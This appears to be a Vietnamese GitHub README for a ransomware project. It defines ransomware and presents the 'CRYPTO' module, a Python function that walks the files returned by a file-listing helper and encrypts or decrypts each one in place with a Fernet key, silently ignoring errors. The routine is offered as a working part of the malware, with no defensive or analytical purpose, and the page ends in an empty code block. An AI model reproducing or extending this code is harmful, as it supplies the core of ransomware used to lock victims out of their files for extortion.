 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
**1.CRYPTO**
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```



```python
```
